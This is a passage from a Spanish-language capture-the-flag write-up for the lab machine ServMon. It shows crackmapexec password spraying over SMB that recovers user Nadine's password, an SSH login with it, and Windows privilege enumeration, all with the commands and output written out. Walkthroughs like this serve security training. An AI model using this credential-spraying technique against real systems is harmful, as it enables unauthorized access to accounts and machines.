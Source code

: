 Para el usuario **Nathan** no tenemos resultados, pero podríamos probar para **Nadine**:

```bash
❯ crackmapexec smb 10.10.10.184 -u 'Nadine' -p Passwords.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] ServMon\Nadine:L1k3B1gBut7s@W0rk
```

Tenemos las credenciales del usuario **Nadine**, por lo que siempre digo, debemos de guardarlas para tenerlas siempre presentes y vamos a probar si podemos conectarnos por ssh:

```bash
❯ ssh nadine@10.10.10.184
nadine@10.10.10.184's password:

Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine

nadine@SERVMON C:\Users\Nadine>
```

Ya nos encontramos dentro de la máquina y podemos visualizar la flag (user.txt). Ahora debemos de enumerar un poco el sistema para ver de que forma podemos escalar privielgios.

```bash
nadine@SERVMON C:\Users\Nadine\Desktop>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== =======
SeShutdownPrivilege           Shut down the system                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
SeTimeZonePrivilege           Change the time zone                 Enabled

nadine@SERVMON C:\Users\Nadine\Desktop>
nadine@SERVMON C:\Users\Nadine\Desktop>whoami /all

USER INFORMATION
----------------

User Name      SID
============== =============================================
servmon\nadine S-1-5-21-3877449121-2587550681-992675040-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
```